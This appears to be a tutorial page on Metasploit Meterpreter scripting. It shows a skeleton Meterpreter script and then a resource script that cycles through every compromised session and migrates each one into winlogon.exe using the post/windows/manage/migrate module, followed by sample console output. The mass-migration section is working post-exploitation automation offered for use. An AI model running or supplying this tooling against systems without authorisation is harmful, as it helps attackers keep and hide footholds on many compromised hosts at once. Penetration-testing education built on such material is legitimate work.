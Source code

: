# Meterpreter Scripting

Since the Meterpreter scripting is planned to be removed and replaced with POST module, we'll put a skeleton Meterpreter script only.

You can locate you new Meterpreter script in

* The framework it-self `metasploit-framework/scripts/meterpreter` or,
* In your Metasploit user's path `~/.msf/scripts/meterpreter`

## Absolute Meterpreter Script

```ruby
# $Id$
# $Revision$
# Author: 
#-------------------------------------------------------------------------------
################## Variable Declarations ##################

@client = client
sample_option_var = nil
@exec_opts = Rex::Parser::Arguments.new(
    "-h" => [ false, "Help menu." ],
    "-o" => [ true , "Option that requires a value"]
    )
meter_type = client.platform

################## Function Declarations ##################

# Usage Message Function
#-------------------------------------------------------------------------------
def usage
    print_line "Meterpreter Script for INSERT PURPOSE."
    print_line(@exec_opts.usage)
    raise Rex::Script::Completed
end

# Wrong Meterpreter Version Message Function
#-------------------------------------------------------------------------------
def wrong_meter_version(meter = meter_type)
    print_error("#{meter} version of Meterpreter is not supported with this Script!")
    raise Rex::Script::Completed
end

################## Main ##################
@exec_opts.parse(args) { |opt, idx, val|
    case opt
    when "-h"
        usage
    when "-o"
        sample_option_var = val
    end
}

# Check for Version of Meterpreter
wrong_meter_version(meter_type) if meter_type !~ /win32|win64|java|php|linux/i # Remove none supported versions
```

The script is directly quoted from the Metasploit samples



## Run Process migration on multiple meterpreter sessions  

From \`msfconsole\` and after getting all metherpreter sessions, go to `post/windows/manage/migrate`   

```
use post/windows/manage/migrate
```

> **Note:** make sure you've the sufficient privileges to migrate to the designated processe

Then create a file with `rc` extension including the `<ruby> </ruby>` tages

**mass-mirgation.rc**

```ruby
<ruby>
# Find PID by name
def find_pid(session_num, session, process)
  print_status("Session #{session_num} | Finding PID of processe #{process}")
    session.sys.process.get_processes().each do |x|
    proc_name, proc_id = x['name'].downcase, x['pid']

    return proc_id if proc_name == process.downcase
  end
end

process = 'winlogon.exe'
framework.sessions.each do |num,session|
  run_single("set PID #{find_pid(num, session, process)}")
  run_single("set SESSION #{num}")
  print_status("Running #{active_module.fullname} against session #{num}")
  run_single("run -j")
  sleep 1
end
</ruby>
```

Now, from msfconsole, 

```
resource /home/rubyfu/mass-migration.rc
```

Result will be similar to

```
[*] Running post/windows/manage/migrate against session 2
[*] Post module running as background job

[*] Running module against WIN-NG118S6TM0H
[*] Current server process: shell.exe (3968)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 3628
SESSION => 3
[*] Running post/windows/manage/migrate against session 3
[*] Post module running as background job
[*] Running module against HOME
[*] Current server process: shell.exe (2684)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 2444
SESSION => 4
[*] Running post/windows/manage/migrate against session 4
[*] Post module running as background job
[*] Running module against WIN-8H4IDI0SR5A
[*] Current server process: shell.exe (2996)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 2240

[+] Successfully migrated to process 3628
[+] Successfully migrated to process 2444
[+] Successfully migrated to process 2240
```




